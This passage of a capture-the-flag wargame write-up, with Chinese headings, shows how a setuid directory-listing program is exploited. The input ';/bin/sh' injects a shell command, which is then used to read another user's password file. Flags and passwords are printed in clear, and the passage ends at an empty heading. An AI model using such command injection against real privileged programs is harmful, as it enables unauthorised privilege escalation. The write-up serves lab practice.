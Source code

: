 ### flag - 03

```plaintext
^btDtPAPzSiXmoHItpqX^
```

### 任务目标

```plaintext title="mission.txt"
The user andromeda has left us a program to list directories.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root      althea    4.0K Jan 31 19:46 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 althea    althea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 althea    althea    3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 althea    althea     807 Apr 23  2023 .profile
-r--r----- 1 andromeda andromeda   21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea      22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea     16K Jul 26  2023 lsme
-rw-r----- 1 root      althea     205 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
andromeda@hades:~$ ./lsme
Enter file to check:
;/bin/sh
total 28
-r--r----- 1 andromeda andromeda    21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea    16216 Jul 26  2023 lsme
-rw-r----- 1 root      althea      205 Jul 26  2023 mission.txt
$ cat /pwned/althea/andromeda_pass.txt
OTWGTbHzrxhYFSTlKcOt
```

## User - andromeda

### flag - 04

```plaintext
^xzsHGrOeNctIZLGKzWq^
```

### 任务目标

```plaintext title="mission.txt"
The user anthea reminds us who we are.
```

### 行动
